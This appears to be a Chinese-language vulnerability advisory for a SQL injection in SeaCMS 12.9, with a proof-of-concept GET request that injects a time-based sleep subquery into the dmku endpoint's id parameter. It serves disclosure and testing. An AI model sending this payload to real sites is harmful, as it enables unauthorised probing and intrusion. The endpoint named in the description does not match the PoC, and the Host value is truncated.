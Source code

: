 **漏洞介绍**

SeaCMS是一套使用PHP编写的免费、开源的网站内容管理系统。该系统主要被设计用来管理视频点播资源。

SeaCMS 12.9版本存在安全漏洞，该漏洞源于存在SQL注入漏洞，允许未经身份验证的远程攻击者执行任意代码并通过class.php中的id参数获取敏感信息。

**影响版本**

SeaCMS 12.9版本

**漏洞复现**

1.访问漏洞环境

 **POC （GET）**

```yaml
GET /js/player/dmplayer/dmku/?ac=del&id=(select(0)from(select(sleep(5)))v)&type=list HTTP/1.1
Host: 127.0.1.
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/121.0.0.0 Safari/537.36    
```

